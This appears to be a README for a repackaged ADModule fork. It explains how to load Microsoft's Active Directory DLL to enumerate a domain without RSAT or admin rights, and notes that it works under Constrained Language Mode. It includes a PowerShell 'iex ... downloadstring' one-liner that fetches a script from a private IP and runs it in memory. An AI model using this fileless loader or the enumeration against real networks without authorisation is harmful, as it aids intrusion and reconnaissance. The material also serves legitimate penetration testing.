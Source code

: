 ## This module was originally from https://github.com/samratashok/ADModule but all AD files have been replaced from Server 2022.

Within the import ps1 script, the bytes have been replaced with the bytes from this Microsoft.ActiveDirectory.Management.dll.


You can copy this DLL to your machine and use it to enumerate Active Directory without installing RSAT and without having administrative privileges.

```powershell
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
```

![](images/import_dll.png)

Alternatively, you can use the ps1 script to download and execute in memory
```powershell
iex(new-object net.webclient).downloadstring('http://192.168.137.128/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

![](images/import_example.png)

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
```powershell
PS C:\> Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose

PS C:\> Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1

PS C:\> Get-Command -Module ActiveDirectory
```

This module should work without issue from PowerShell's Constrained Language Mode.